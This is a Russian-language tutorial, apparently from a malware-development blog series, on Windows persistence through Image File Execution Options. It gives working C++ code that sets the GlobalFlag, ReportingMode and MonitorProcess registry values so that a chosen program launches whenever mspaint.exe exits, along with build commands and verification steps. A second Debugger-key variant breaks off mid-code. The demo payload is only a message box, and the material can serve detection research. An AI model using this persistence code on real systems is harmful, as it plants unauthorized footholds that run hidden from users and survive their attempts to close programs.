\newpage
\subsection{76. Разработка вредоносного ПО: закрепление (persistence) - часть 10. Использование Image File Execution Options. Простой пример на C++.}

﷽

{width="80%"}    

Этот пост является результатом моего собственного исследования одного из интересных методов персистентности вредоносного ПО: через Image File Execution Options (IFEO).    

### Image File Execution Options    

IFEO позволяет разработчикам прикреплять отладчик к приложению или процессу. Это позволяет отладчику/программе выполняться одновременно с отлаживаемым приложением.    

Как включить эту функцию? Мы можем запускать процесс/программу при тихом завершении другого приложения.    

*Тихий выход* приложения означает, что оно было завершено одним из двух способов:
1. Самостоятельное завершение с вызовом `ExitProcess`
2. Завершение другим процессом через вызов `TerminateProcess`

Эта функция настраивается через следующий ключ реестра:    

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\SilentProcessExit`        

### практический пример

Запустим наш вредоносный код после того, как Microsoft Paint (`mspaint.exe`) тихо завершит свою работу.    

Допустим, у нас есть наше "вредоносное ПО" (`hack.cpp`):   

```cpp
/*
hack.cpp
вредоносное приложение для персистентности через IFEO
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Как видите, как обычно, я использую "meow-meow" message box "вредоносное ПО" =^..^=    

Затем создадим скрипт для персистентности, который модифицирует реестр (`pers.cpp`):     


```cpp
/*
pers.cpp
windows persistence via IFEO (GlobalFlag)
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  DWORD gF = 512;
  DWORD rM = 1;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image 
  File Execution Options\\mspaint.exe";

  // silent exit
  const char* silent = "SOFTWARE\\Microsoft\\Windows 
  NT\\CurrentVersion\\SilentProcessExit\\mspaint.exe";

  // evil app
  const char* exe = "Z:\\2022-09-10-malware-pers-10\\hack.exe";

  // GlobalFlag
  // LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\mspaint.exe", 0 , KEY_WRITE, &hkey);
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
    // Execution Options\mspaint.exe" /v GlobalFlag /t REG_DWORD /d 512
    RegSetValueEx(hkey, (LPCSTR)"GlobalFlag", 0, REG_DWORD, (const BYTE*)&gF, sizeof(gF));
    RegCloseKey(hkey);
  }

  // res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)
  //"SOFTWARE\\Microsoft\\Windows 
  //NT\\CurrentVersion\\SilentProcessExit\\mspaint.exe", 0 , KEY_WRITE, &hkey);
  res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)silent, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows 
    // NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t 
    // REG_DWORD /d 1
    // reg add "HKLM\SOFTWARE\Microsoft\Windows 
    // NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d 
    // "Z:\..\hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"ReportingMode", 0, REG_DWORD, 
    (const BYTE*)&rM, sizeof(rM));
    RegSetValueEx(hkey, (LPCSTR)"MonitorProcess", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Итак, что мы здесь сделали? Во-первых, мы создали ключ `SilentProcessExit` в `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion`, затем включили функцию мониторинга завершения тихого процесса, добавив `GlobalFlag`:

```cpp
//...

LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);

//...
//...

// reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
// Execution Options\mspaint.exe" /v GlobalFlag /t REG_DWORD /d 512
RegSetValueEx(hkey, (LPCSTR)"GlobalFlag", 0, REG_DWORD, 
(const BYTE*)&gF, sizeof(gF));
//...
```

Если установить `MonitorProcess` на `...\hack.exe` и `ReportingMode` на `1`, то каждый тихий выход из `mspaint.exe` теперь будет вызывать выполнение нашей "вредоносной программы" `hack.exe`:

```cpp
//...

RegSetValueEx(hkey, (LPCSTR)"ReportingMode", 0, REG_DWORD, 
(const BYTE*)&rM, sizeof(rM));
RegSetValueEx(hkey, (LPCSTR)"MonitorProcess", 0, REG_SZ, (unsigned char*)exe, 
strlen(exe));
```

### демонстрация

Посмотрим, как это работает. Компилируем вредоносный код:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}    

Запустим его, просто для проверки корректности:    

{width="80%"}    

Проверяем реестр до изменений:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" /s
```

{width="80%"}    

Также проверяем `SilentProcessExit`:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit" /s
```

{width="80%"}    

Как видно, ожидаемо, некоторые ключи реестра отсутствуют для целевого приложения. Поэтому при запуске и закрытии ничего не происходит:    

{width="80%"}    

{width="80%"}    

Теперь компилируем:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}    

Запускаем скрипт персистентности `pers.exe`, затем проверяем реестр снова:    

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" /s
```

{width="80%"}    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit" /s
```

{width="80%"}    

Наконец, снова запускаем `mspaint.exe`:    

{width="80%"}    

{width="80%"}    

и закрываем его:    

{width="80%"}    

Ключ реестра `ReportingMode` активирует процесс Windows Error Reporting (`WerFault.exe`), который становится родительским процессом для `MonitorProcess` со значением `hack.exe`:    

{width="80%"}    

> `WerFault.exe` - используется для отслеживания ошибок, связанных с ОС, функциями Windows и приложениями.    

### Тип IFEO через отладчик

Существует другая реализация IFEO через ключ `Debugger`. Нужно создать отладчик для целевого процесса в реестре:

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe`     

В этом случае требуется только, чтобы вредоносное приложение находилось в `System32`.    

Исходный код прост и выглядит следующим образом:    

```cpp
/*
pers2.cpp
windows persistence via IFEO 2(Debugger)
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  DWORD gF = 512;
  DWORD rM = 1;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image 
  File Execution Options\\mspaint.exe";

  // evil app
  const char* exe = "hack.exe";

  // Debugger
